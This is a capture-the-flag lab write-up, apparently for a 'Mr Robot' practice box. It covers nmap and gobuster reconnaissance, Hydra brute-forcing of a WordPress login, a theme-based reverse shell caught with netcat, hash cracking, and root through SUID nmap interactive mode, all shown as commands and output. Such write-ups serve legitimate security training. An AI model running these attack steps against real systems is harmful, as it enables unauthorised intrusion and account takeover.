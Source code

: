 #### IP `10.10.59.244`

#### 1. Nmap scan

```
$ nmap -Pn -A 10.10.33.112

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-14 04:04 EST
Nmap scan report for 10.10.33.112
Host is up (0.29s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.30 seconds
```

There are three ports: 22,80,443



#### 2. Gobuster 

```
/readme (Status: 200)
/rdf (Status: 301)
/robots (Status: 200)
/robots.txt (Status: 200)
/rss (Status: 301)
/rss2 (Status: 301)
/wp-login
```

What seems interesting is /robots and /wp-login




#### 3. Checking /robots.txt

I find two files:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
and get first key. Second file `fsocity.dic` is a dictionary which I download to my machine.

#### 4. Access to Wordpress

I wanted to find out how site reads username / password with Burp first and typed admin / admin:

```
POST /wp-login.php HTTP/1.1
Host: 10.10.33.112
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.10.33.112
Connection: close
Referer: http://10.10.33.112/wp-login.php
Cookie: s_cc=true; s_fid=2A158C002CF358F0-25A61CA879F5E5F4; s_nr=1610616559555; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.33.112%2Fwp-admin%2F&testcookie=1
```

so `log` is username and `pwd` password.

If we type bad user name we get response "Invalid username" so using hydra:

`hydra -L /home/kali/Documents/THM/Mr_Robot/fsocity.dic -p test 10.10.33.112 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^: Invalid username" -t 30`

we get username `Ellliot`

`[80][http-post-form] host: 10.10.33.112   login: Elliot   password: test`

so now let's keep `Elliot` and bruteforce password:

`hydra -l Elliot -P fsocity.dic  10.10.33.112 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30`

After some time I find password `E28-0652`



#### 5. Login to wordpress and reverse shell

Very commong technique is to modify a Theme by uploading pentestlonkey's reverse shell, running netcat and accessing modified  file:

`http://10.10.33.112/wp-content/themes/twentyfifteen/404.php`

here we go:

```
sudo nc -lvnp 4444        
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [10.6.46.150] from (UNKNOWN) [10.10.33.112] 35540


$ python3 -c 'import pty;pty.spawn("/bin/bash")'   
daemon@linux:/$ 
daemon@linux:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
daemon@linux:/$ 
```

#### 6. Enumeration

There is a file in /home/robot that we can cat and which is looks like a password for another user:

```
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

So I go to crackstationn type the hash and get`abcdefghijklmnopqrstuvwxyz`

```
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ whoami
whoami
robot
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

I can get a second key:

```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

#### 7. Escalate to root

Usually it is good to run linpeas.sh (long version) or try to quickly search for suuid files:

```
robot@linux:/$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
```

I am lucky as /usr/local/bin/nmap seems to be ineresting, because old versions of nmapenable getting easily root.

```
robot@linux:/$ nmap --version
nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```
Great, so:

```
robot@linux:/$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami 
whoami
root
# cd /root
cd /root

# ls -al
ls -al
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd


# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```

/FIN

